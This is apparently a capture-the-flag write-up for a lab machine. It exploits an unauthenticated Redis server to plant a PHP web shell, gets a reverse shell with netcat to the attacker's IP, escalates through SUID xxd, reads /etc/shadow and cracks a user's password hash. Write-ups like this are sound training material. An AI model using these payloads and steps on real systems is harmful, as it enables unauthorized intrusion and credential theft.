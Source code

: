 > Res

# Nmap

nmap -sC -sV -T4 -Pn -vvv -A -oN nmap/initial $IP

```
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   syn-ack Redis key-value store 6.0.7
```

Looks like Redis server is in place and without authentication🤡. And looking at HackTricks looks like we can create a file if we know the exact location of writable directory.

```
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo (); ?>"
save
```

And now accessing `set test "<?php phpinfo (); ?>"` we got php info page. Let's try to get RCE.

Let's change the contents of redis.php to `set test "<?php system($_GET['cmd']); ?>"` and we got command execution. Let's get a shell.

And accessing `http://10.10.153.39/redis.php?cmd=nc%20-e%20/bin/sh%2010.8.107.21%209001`, we got the shell as www-data.

# User.txt

```
thm{red1s_rce_w1thout_credent1als}
```

Let's looks for SUID bits.

find / -perm -u=s -type f 2>/dev/null

```
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd => 🐛
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
```

# Exploit

```
LFILE=/root/root.txt
xxd "$LFILE" | xxd -r
```

# root.txt

```
thm{xxd_pr1v_escalat1on}
```

But still we need local user's password which is in `/etc/shadow`. By using the same steps we got this and now we can crack this to get the password.

`vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::`

john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```
beautiful1       (?)
```